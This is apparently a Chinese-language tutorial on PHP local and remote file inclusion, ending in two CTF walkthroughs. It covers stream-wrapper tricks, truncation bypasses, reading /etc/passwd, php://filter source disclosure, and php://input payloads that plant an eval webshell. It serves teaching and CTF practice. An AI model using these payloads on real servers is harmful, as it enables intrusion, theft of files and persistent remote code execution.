



```php
#要实现远程文件包含需要allow_url_fopen和allow_url_include都开启
#读文件(需要开启 allow_url_fopen)
?filename=php://filter/read=convert.base64-encode/resource=xxx.php 
?filename=php://filter/convert.base64-encode/resource=xxx.php      

#post传值（需开启 allow_url_include）
?file=php://input 
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["test"])?>');?>

#代码执行(php>=5.2.0)
data://text/plain;base64,dGhlIHVzZXIgaXMgYWRtaW4 
data:text/plain,<?php phpinfo();?>

#file读文件
?abc=file:///etc/passwd

#phar（>=5.3.0）
?file=phar://压缩包/内部文件 phar://xxx.png（压缩包）/shell.php （内部文件）
#zip（PHP > =5.3.0，注意在windows下测试要5.3.0<PHP<5.4 才
可以 #在浏览器中要编码为%23）
?file=zip://[压缩文件绝对路径]%23[压缩文件内的子文件名] 
zip://xxx.png#shell.php     
```

# **<font style="color:rgb(38, 38, 38);">文件操作之文件包含漏洞</font>**
## **<font style="color:rgb(38, 38, 38);">文件包含漏洞原理</font>**
`<font style="color:rgb(38, 38, 38);">File inclusion(文件包含漏洞)</font>`<font style="color:rgb(38, 38, 38);">是一种依赖于脚本运行而影响应用程序的漏洞，因为许多脚本语言支持使用文件包含（将另一个文件代码加入当前文件中），这种功能允许开发者把可使用的代码插入单个文件中，然后包含文件当中的代码会被当前脚本解释执行，由于开发者使用了可变的</font>`<font style="color:rgb(38, 38, 38);">文件包含路径</font>`<font style="color:rgb(38, 38, 38);">，且没有对变量参数做过滤和处理，导致攻击者可以控制变量，构造恶意文件路径，导致文件包含漏洞。  
</font><font style="color:rgb(38, 38, 38);">在</font>`<font style="color:rgb(38, 38, 38);">php</font>`<font style="color:rgb(38, 38, 38);">中有四种文件包含函数：  
</font>`<font style="color:rgb(38, 38, 38);">require()</font>`<font style="color:rgb(38, 38, 38);">：只要程序以运行就包含文件，找不到被包含的文件时会产生错误，停止脚本  
</font>`<font style="color:rgb(38, 38, 38);">include()</font>`<font style="color:rgb(38, 38, 38);">：当程序执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行  
</font>`<font style="color:rgb(38, 38, 38);">include_once()</font>`<font style="color:rgb(38, 38, 38);">：若文件中代码已被包含则不会再次包含  
</font>`<font style="color:rgb(38, 38, 38);">require_once()</font>`<font style="color:rgb(38, 38, 38);">：若文件中代码已被包含则不会再次包含</font>

```html
<!--#include file-'1.asp'-->
<!--#include file-'2.aspx'-->
<?php include('test.php')?>
<c:import url="http://test/head.jsp">
<jsp:include pagc="head.jsp"/>
<%@ include file-"head.jsp"%>
```

### **<font style="color:rgb(38, 38, 38);">文件包含漏洞的危害</font>**
1. <font style="color:rgb(38, 38, 38);">配合文件上传漏洞getshell</font>
2. <font style="color:rgb(38, 38, 38);">可执行任意脚本代码</font>
3. <font style="color:rgb(38, 38, 38);">网站源码文件以及配置文件泄露</font>
4. <font style="color:rgb(38, 38, 38);">远程包含getshell</font>
5. <font style="color:rgb(38, 38, 38);">控制整个网站甚至是服务器</font>

## **<font style="color:rgb(38, 38, 38);">文件包含漏洞分类</font>**
<font style="color:rgb(38, 38, 38);">文件包含漏洞包括</font>**<font style="color:rgb(38, 38, 38);">本地文件包</font>**<font style="color:rgb(38, 38, 38);">含漏洞和</font>**<font style="color:rgb(38, 38, 38);">远程文件包含</font>**<font style="color:rgb(38, 38, 38);">漏洞。  
</font><font style="color:rgb(38, 38, 38);">顾名思义，本地文件包含漏洞指的是漏洞包含的是当前服务器本地的文件，远程包含漏洞是包含其他服务器上的文件，不仅限于php，但可能对方会做过滤或者验证，所以还需要考虑绕过，这区分和RCE漏洞很相似  
</font>**<font style="color:rgb(38, 38, 38);">文件包含利用</font>**

<font style="color:rgb(38, 38, 38);">运行</font>`<font style="color:rgb(38, 38, 38);">phpstudy</font>`<font style="color:rgb(38, 38, 38);">后在网站任意一目录下创建</font>`<font style="color:rgb(38, 38, 38);">include.php</font>`<font style="color:rgb(38, 38, 38);">:</font>

```html
<?php
    $filename = $_GET['filepath'];
    include($filename);
?>
```

<font style="color:rgb(38, 38, 38);">访问</font>`<font style="color:rgb(38, 38, 38);">include.php</font>`<font style="color:rgb(38, 38, 38);">，以get方式提交参数值为同目录下，</font>`<font style="color:rgb(38, 38, 38);">phpinfo.txt</font>`<font style="color:rgb(38, 38, 38);">：  
</font>


<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">可以看到文件包含，将phpinfo.txt这个文本文件中的内容<?php phpinfo()?>当作成了php代码来执行，  
</font><font style="color:rgb(38, 38, 38);">这时候如果我们将代码稍微改一下，固定后缀：</font>

```html
<?php
    $filename = $_GET['filepath'];
    include($filename.'.png');	//固定了后缀为png
?>
```


<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">这时候文件包含就会出错，因为拦截，实际情况下攻击者没有源码情况下，并不知道固定后缀了，就会不停测试是不是其他地方有问题，从而消耗部分时间  
</font><font style="color:rgb(38, 38, 38);">当然这是本地测试，所以我们要考虑的是有没有办法绕过：  
</font><font style="color:rgb(38, 38, 38);">%00截断：需要</font>`<font style="color:rgb(38, 38, 38);">magic_quotes_gpc</font>`<font style="color:rgb(38, 38, 38);">=off ，</font>`<font style="color:rgb(38, 38, 38);">php</font>`<font style="color:rgb(38, 38, 38);">版本<5.3.4  
</font>`[http:/http://192.168.1.19/index.php?filename=phpinfo.txt%00](http://192.168.1.19/index.php?filename=phpinfo.txt%00)`<font style="color:rgb(38, 38, 38);">  
</font>


<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">长度截断：Windwos中</font>`<font style="color:rgb(38, 38, 38);">/</font>`<font style="color:rgb(38, 38, 38);">,</font>`<font style="color:rgb(38, 38, 38);">/.</font>`<font style="color:rgb(38, 38, 38);">得长度达到259次，Linux达到2038次后后面得扩展名会被截断，关于系统得判断，只需要将url部分换成大写，如果大小写敏感，那么就是</font>`<font style="color:rgb(38, 38, 38);">linux</font>`<font style="color:rgb(38, 38, 38);">了</font>

## **<font style="color:rgb(38, 38, 38);">伪协议的利用条件和方法</font>**
```html
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```

<font style="color:rgb(38, 38, 38);">在php.ini里有俩个重要的参数</font>`<font style="color:rgb(38, 38, 38);">allow_url_fopen</font>`<font style="color:rgb(38, 38, 38);">、</font>`<font style="color:rgb(38, 38, 38);">allow_url_include</font>`<font style="color:rgb(38, 38, 38);">  
</font>`<font style="color:rgb(38, 38, 38);">allow_url_fopen</font>`<font style="color:rgb(38, 38, 38);">：默认是on，允许url里的封装协议访问文件  
</font>`<font style="color:rgb(38, 38, 38);">allow_url_include</font>`<font style="color:rgb(38, 38, 38);">：默认是off，不允许包含url里的封装协议包含文件  
</font>

  
 

### http://、https://协议
<font style="color:rgb(38, 38, 38);">URL形式，允许通过HTTP 1.0 的GET方法，以只读访问文件或资源，通常用于远程文件包含  
</font><font style="color:rgb(38, 38, 38);">用法：http://网络路径和文件名  
</font>`<font style="color:rgb(38, 38, 38);">?filename=http://127.0.0.1/test/phpinfo.txt</font>`<font style="color:rgb(38, 38, 38);">  
</font>


<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">远程包含了</font>`<font style="color:rgb(38, 38, 38);">phpinfo.txt</font>`<font style="color:rgb(38, 38, 38);">文件，并且将其中的</font>`<font style="color:rgb(38, 38, 38);"><?phpphpinfo();?></font>`<font style="color:rgb(38, 38, 38);">当作php代码执行</font>

### **<font style="color:rgb(38, 38, 38);">file://协议</font>**
<font style="color:rgb(51, 51, 51);">用于访问本地文件系统。当指定了一个相对路径（不以</font>`<font style="color:rgb(51, 51, 51);">/</font>`<font style="color:rgb(51, 51, 51);">、</font>`<font style="color:rgb(51, 51, 51);">\</font>`<font style="color:rgb(51, 51, 51);">或 Windows 盘符开头的路径）提供的路径将基于当前的工作目录。</font>  
<font style="color:rgb(51, 51, 51);">获取指定文件内容后，当作</font>PHP代码执行  
用法：  
`?filename=file://D:\phpStudy\PHPTutorial\WWW\test\phpinfo.txt`  


###   
**<font style="color:rgb(38, 38, 38);">php://filter协议</font>**
<font style="color:rgb(38, 38, 38);">php://filter协议的参数，和对该参数的描述</font><font style="color:rgb(38, 38, 38);">  
</font>

| <font style="color:rgb(51, 51, 51);">resource=<要过滤的数据流></font><font style="color:rgb(38, 38, 38);">   </font> | <font style="color:rgb(51, 51, 51);">必须项。它指定了你要筛选过滤的数据流。</font><font style="color:rgb(38, 38, 38);">   </font> |
| --- | --- |
| <font style="color:rgb(51, 51, 51);">read=<读链的过滤器></font><font style="color:rgb(38, 38, 38);">   </font> | <font style="color:rgb(51, 51, 51);">该参数可选。可以设定一个或多个过滤器名称，以管道符(|)分隔</font><font style="color:rgb(38, 38, 38);">   </font> |
| _<font style="color:rgb(51, 51, 51);">write=<写链的筛选列表></font>_<font style="color:rgb(38, 38, 38);">   </font> | <font style="color:rgb(51, 51, 51);">该参数可选。可以设定一个或多个过滤器名称，以管道符(|)分隔</font><font style="color:rgb(38, 38, 38);">   </font> |
| <font style="color:rgb(51, 51, 51);"><; 两个链的过滤器></font><font style="color:rgb(38, 38, 38);">   </font> | <font style="color:rgb(51, 51, 51);">任何没有以 </font>_<font style="color:rgb(51, 51, 51);">read=</font>_<font style="color:rgb(51, 51, 51);"> 或 </font>_<font style="color:rgb(51, 51, 51);">write=</font>_<font style="color:rgb(51, 51, 51);"> 作前缀的筛选器列表会视情况应用于读或写链。</font><font style="color:rgb(38, 38, 38);">   </font> |


<font style="color:rgb(38, 38, 38);">读取文件源码：  
</font>`<font style="color:rgb(38, 38, 38);">php://filter/read=convert.base64-encode/resource=phpinfo.txt</font>`<font style="color:rgb(38, 38, 38);">  
</font>


<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">base64-encode</font><font style="color:rgb(38, 38, 38);">加密是预防乱码，这时候将结果去解密就可以得到源代码：</font><font style="color:rgb(38, 38, 38);">  
</font>


### **<font style="color:rgb(38, 38, 38);">php://input协议</font>**
<font style="color:rgb(51, 51, 51);">php://input可以访问请求的原始数据的只读流，将</font>`<font style="color:rgb(51, 51, 51);">post</font>`<font style="color:rgb(51, 51, 51);">请求的数据当作php代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input,同时post想设置的文件内容，php执行时会将post内容当作文件内容。</font>  
<font style="color:rgb(232, 50, 60);">tips</font>：当`enctype="multipart/form-data"`时，`php://input`是无效的。且需要`allow_url_include`参数为on。  
执行php代码用法：`php://input [post部分]=<?php system('ver');?>`  


  
显示操作系统的版本号  
写入一句话木马：`php://input [post部分]=`  
`<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET['cmd'])?>');?>`  
执行成功后，访问当前目录下shell.php构造cmd参数跟上php代码，成功执行  


### **<font style="color:rgb(38, 38, 38);">zip://、compress.bzip2://、compress.zlib://协议</font>**
<font style="color:rgb(51, 51, 51);">用于读取压缩文件，zip:// 、 bzip2:// 、 zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：jpg png gif xxx 等等。</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">1、zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]（#编码为%23）  
</font>`[http://127.0.0.1/include.php?file=zip://E:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt](http://127.0.0.1/include.php?file=zip://E:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt)`<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">2、compress.bzip2://file.bz2  
</font>`<font style="color:rgb(38, 38, 38);"><a href="http://127.0.0.1/cmd.php?file=compress.bzip2://D:/soft/phpStudy/WWW/file.jpg"rel="noopener">http://127.0.0.1/include.php?file=compress.bzip2://D:/soft/phpStudy/WWW/file.jpg</a><br>http://127.0.0.1/include.php?file=compress.bzip2://./file.jpg</font>`<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">3、compress.bzip2://file.bz2  
</font>`<font style="color:rgb(38, 38, 38);"><a href="http://127.0.0.1/cmd.php?file=compress.zlib://D:/soft/phpStudy/WWW/file.jpg"rel="noopener">http://127.0.0.1/include.php?file=compress.zlib://D:/soft/phpStudy/WWW/file.jpg</a><br><a href="http://127.0.0.1/cmd.php?file=compress.zlib://./file.jpg"rel="noopener">http://127.0.0.1/include.php?file=compress.zlib://./file.jpg</a><br><br>4、<code class="http">phar://</code></font>`<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">4、phar://  
</font>`[http://127.0.0.1/test/include.php?filename=phar://D:/phpStudy/PHPTutorial/WWW/test/phpinfo.zip/phpinfo.txt](http://127.0.0.1/include.php?file=phar://E:/phpStudy/PHPTutorial/WWW/phpinfo.zip/phpinfo.txt)`

### **<font style="color:rgb(38, 38, 38);">data://协议</font>**
<font style="color:rgb(51, 51, 51);">数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。</font>

```html
1、data://text/plain,
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
 
2、data://text/plain;base64,
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```


## <font style="color:rgb(38, 38, 38);">实例演示：</font>
### <font style="color:rgb(34, 34, 38);">南邮 ctf 百度杯</font>
URL:`[http://4.chinalover.sinaapp.com/web7/index.php](http://4.chinalover.sinaapp.com/web7/index.php)`  
打开网站后，首页是一个显示"click me? no"  


  
点击后页面发生跳转，url变成了->  
`[http://4.chinalover.sinaapp.com/web7/index.php?file=show.php](http://4.chinalover.sinaapp.com/web7/index.php?file=show.php)`  
观察index.php后跟上参数file，然后值为show.php，那么我们常识访问一下这个文件  


  
发现和`[http://4.chinalover.sinaapp.com/web7/index.php?file=show.php](http://4.chinalover.sinaapp.com/web7/index.php?file=show.php)`页面如出一辙，就是把`show/php`文件给执行了，到这里就可以考虑着是不是一个文件包含了  
验证一下：  
先判断对方操作系统，修改`url`部分为大写  


  
好了，对方是Linux系统，继续接下来的操作  
包含一个远程得图片，发现页面有反应，应该是有拦截  


  
常识通过伪协议`php://filter`来读取一下首页index文件（目前确定当前目录有index.php和show.php）,拿去解码看看文件源码  


  
可以看到源码最后，有你想要得东西！  


###   
**<font style="color:rgb(38, 38, 38);">i春秋 百度杯2017_web include</font>**
<font style="color:rgb(38, 38, 38);">打开环境拿到url：</font>[http://eci-2ze41ewr591y3qhfi9vh.cloudeci1.ichunqiu.com](http://eci-2ze41ewr591y3qhfi9vh.cloudeci1.ichunqiu.com/)<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">可以看到页面左上方有一串代码，简单分析一下：  
</font><font style="color:rgb(38, 38, 38);">如果</font>`<font style="color:rgb(38, 38, 38);">$REQUEST['path']</font>`<font style="color:rgb(38, 38, 38);">接收到值，就</font>`<font style="color:rgb(38, 38, 38);">include</font>`<font style="color:rgb(38, 38, 38);">包含这个值，如果为空就</font>`<font style="color:rgb(38, 38, 38);">include</font>`<font style="color:rgb(38, 38, 38);">包含</font>`<font style="color:rgb(38, 38, 38);">phpinfo.php</font>`<font style="color:rgb(38, 38, 38);">  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">很显然，这个参数里没有值，那么就会包含</font>`<font style="color:rgb(38, 38, 38);">phpinfo.php</font>`<font style="color:rgb(38, 38, 38);">这个文件，而下面就是这个文件执行得结果，从过这串代码，也可以得知这就是一个文件包含漏洞  
</font><font style="color:rgb(38, 38, 38);">还是老样子，先判断操作系统：  
</font>


<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">无反应，是UNix操作系统  
</font><font style="color:rgb(38, 38, 38);">接下来，尝试访问一下</font>`<font style="color:rgb(38, 38, 38);">phpinfo.php</font>`<font style="color:rgb(38, 38, 38);">,其实也没有必要</font>


<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">尝试试一下伪协议：</font><font style="color:rgb(38, 38, 38);">  
</font>


<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">成功执行了</font>`<font style="color:rgb(38, 38, 38);">php</font>`<font style="color:rgb(38, 38, 38);">代码，那么可以遍历一下当前目录，或者查看一下主页文件的源码  
</font><font style="color:rgb(38, 38, 38);">使用系统函数遍历当前目录，发现一个可以文件 </font>`<font style="color:rgb(38, 38, 38);">dle345aae.php</font>`<font style="color:rgb(38, 38, 38);">  
</font>


<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">尝试读取</font>`<font style="color:rgb(38, 38, 38);"> dle345aae.php</font>`<font style="color:rgb(38, 38, 38);">内容，  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">然后拿去base64解码  
</font>`<font style="color:rgb(38, 38, 38);">$flag="flag{1d071fd4-a096-4ebc-8c1d-28e2846917b8}"</font>`<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">这就是我们想要的flag了</font>


